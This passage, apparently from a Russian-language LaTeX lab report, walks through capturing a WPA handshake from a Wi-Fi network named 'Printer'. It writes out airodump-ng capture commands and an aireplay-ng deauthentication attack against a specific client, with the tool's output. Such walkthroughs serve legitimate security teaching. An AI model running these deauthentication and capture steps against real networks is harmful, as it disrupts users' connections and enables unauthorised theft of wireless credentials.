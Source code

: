 Нас интересует сеть Printer.

Запустим сбор трафика для получения аутентификационных сообщений:

\begin{lstlisting}
root@kali:$airodump-ng mon0 --write airdump --bssid 12:FE:ED:E5:BD:01 -c 6 
\end{lstlisting}

\begin{figure}[H]
	\centering
	\includegraphics[width=\textwidth]{figures/2.png}
	\caption{airodump}
\end{figure}

Произведем деаутентификацию одного из клиентов (клиента с MAC-адресом 
CC:FA:00:AB:87:F0), до тех пор, пока не удастся собрать необходимых для 
взлома аутентификационных сообщений.
\begin{lstlisting}
root@kali:$aireplay-ng --ignore-negative-one --deauth 150 -a 12:FE:ED:E5:BD:01 -h CC:FA:00:AB:87:F0 mon0
06:25:42  Waiting for beacon frame (BSSID: 12:FE:ED:E5:BD:01) on channel 6
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
06:25:42  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
06:25:43  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
06:25:43  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
06:25:53  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
06:26:03  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
06:26:04  Sending DeAuth to broadcast -- BSSID: [12:FE:ED:E5:BD:01]
\end{lstlisting}
В результате перехватываем пакет handshake:
\begin{lstlisting}
root@kali:$airodump-ng mon1 --bssid 12:FE:ED:E5:BD:01 -c 6 --write dump --ignore-negative-one
\end{lstlisting}

\begin{figure}[H]
	\centering
	\includegraphics[width=\textwidth]{figures/3.png}
	\caption{airodump}
\end{figure}

